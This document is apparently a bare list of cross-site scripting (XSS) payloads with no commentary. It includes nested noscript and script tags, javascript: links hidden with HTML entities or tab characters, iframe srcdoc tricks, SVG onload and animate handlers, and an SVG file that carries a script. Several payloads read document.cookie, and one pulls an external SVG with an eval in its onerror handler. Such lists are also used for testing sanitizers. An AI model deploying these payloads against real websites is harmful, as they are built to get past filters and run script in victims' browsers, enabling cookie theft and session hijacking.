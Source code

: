 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src="https://gistpreview.github.io/?029781441a2d3737294741f2d6a4c821/image8.svg" onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>
<select><noembed></select><script x='a@b'a>
y='a@b'//a@b%0a\u0061lert(1)</script x>

xss'''><iframe srcdoc='%26it;script>;prompt`
${document.domain}`%26it;/script>'>
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

<sVg/onLy=1 onLoaD=confirm(1)//

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>

<svg><animate onbegin=evt.path.pop().alert(1) attributeName=x dur=1s>

<img/src=x onError="`${x}`;alert(`Ex.Mi`);">
